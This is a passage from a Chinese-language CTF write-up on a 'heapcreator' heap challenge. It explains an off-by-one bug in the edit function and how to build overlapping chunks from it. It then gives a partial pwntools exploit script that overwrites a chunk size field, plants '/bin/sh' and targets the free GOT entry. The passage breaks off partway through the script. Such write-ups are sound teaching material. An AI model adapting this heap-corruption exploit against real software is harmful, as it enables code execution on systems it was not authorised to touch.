 1. 创建堆，根据用户输入的长度，申请对应内存空间，并利用 read 读取指定长度内容。这里长度没有进行检测，当长度为负数时，会出现任意长度堆溢出的漏洞。当然，前提是可以进行 malloc。此外，这里读取之后并没有设置 NULL。
2. 编辑堆，根据指定的索引以及之前存储的堆的大小读取指定内容，但是这里读入的长度会比之前大 1，所以会**存在 off by one 的漏洞**。
3. 展示堆，输出指定索引堆的大小以及内容。
4. 删除堆，删除指定堆，并且将对应指针设置为了 NULL。

### 利用

基本利用思路如下

1. 利用off by one 漏洞覆盖下一个chunk 的 size 字段，从而构造伪造的 chunk 大小。
2. 申请伪造的 chunk 大小，从而产生 chunk overlap，进而修改关键指针。

更加具体的还是直接看脚本吧。

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

r = process('./heapcreator')
heap = ELF('./heapcreator')
libc = ELF('./libc.so.6')


def create(size, content):
    r.recvuntil(":")
    r.sendline("1")
    r.recvuntil(":")
    r.sendline(str(size))
    r.recvuntil(":")
    r.sendline(content)


def edit(idx, content):
    r.recvuntil(":")
    r.sendline("2")
    r.recvuntil(":")
    r.sendline(str(idx))
    r.recvuntil(":")
    r.sendline(content)


def show(idx):
    r.recvuntil(":")
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(idx))


def delete(idx):
    r.recvuntil(":")
    r.sendline("4")
    r.recvuntil(":")
    r.sendline(str(idx))


free_got = 0x602018
create(0x18, "dada")  # 0
create(0x10, "ddaa")  # 1
# overwrite heap 1's struct's size to 0x41
edit(0, "/bin/sh\x00" + "a" * 0x10 + "\x41")
# trigger heap 1's struct to fastbin 0x40
# heap 1's content to fastbin 0x20
```